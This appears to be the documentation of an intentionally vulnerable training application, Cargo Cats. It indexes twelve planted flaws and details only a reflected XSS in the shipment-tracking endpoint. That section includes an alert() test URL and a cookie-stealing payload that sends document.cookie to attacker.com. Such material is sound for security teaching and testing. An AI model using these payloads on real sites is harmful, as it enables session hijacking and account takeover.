 # Cargo Cats Security Vulnerabilities Documentation

This document details the intentional security vulnerabilities present in the Cargo Cats application. **This application is designed for educational and testing purposes only and should NEVER be deployed in a production environment.**

## Vulnerability Index

1. [Cross-Site Scripting (XSS) - Tracking Functionality](#1-cross-site-scripting-xss---tracking-functionality-on-index-page)
2. [SQL Injection - Payment Feature](#2-sql-injection---payment-feature-of-shipments)
3. [Log4Shell (CVE-2021-44228) - Login Page](#3-log4shell-cve-2021-44228---login-page-username-field)
4. [Server-Side Request Forgery (SSRF) - Webhook Service](#4-server-side-request-forgery-ssrf---webhook-service)
5. [Command Injection - Webhook Service](#5-command-injection---webhook-service)
6. [Path Traversal - Image Service](#6-path-traversal---image-service-file-operations)
7. [Server-Side JavaScript Injection (SSJS) - Label Generation](#7-server-side-javascript-injection-ssjs---label-generation-service)
8. [Weak Password Storage - MD5 Hashing](#8-weak-password-storage---md5-hashing)
9. [Missing Authentication - Missing Access Controls](#9-missing-authentication---missing-access-controls)
10. [Insecure Session Management - Missing HTTPOnly Flag](#10-insecure-session-management---missing-httponly-flag)
11. [XML External Entity (XXE) - Document Processing Service](#11-xml-external-entity-xxe---document-processing-service)
12. [Untrusted Deserialization - Address Import Feature](#12-untrusted-deserialization---address-import-feature)

---

### 1. Cross-Site Scripting (XSS) - Tracking Functionality on Index Page

**Vulnerability Details:**
The shipment tracking feature on both the main index page and dashboard accepts user input and reflects it directly into HTML responses without sanitization.

**Exploitation via Frontgate Interface:**
   - Make a GET request to: `/api/shipments/track?trackingId=<script>alert('XSS')</script>`
   - The malicious script is embedded in the HTML response

**Attack Scenarios:**
- **Session Hijacking:** `<script>fetch('//attacker.com/steal?cookie='+document.cookie)</script>` (possible due to missing HTTPOnly flag - see vulnerability #10)
- **Credential Harvesting:** Inject fake login forms to capture credentials
- **Admin Impersonation:** Execute actions on behalf of logged-in administrators

**Impact:** http://dataservice:8080/user
- Account takeover through session hijacking
- Credential theft and phishing attacks
- Malicious actions performed on behalf of authenticated users

---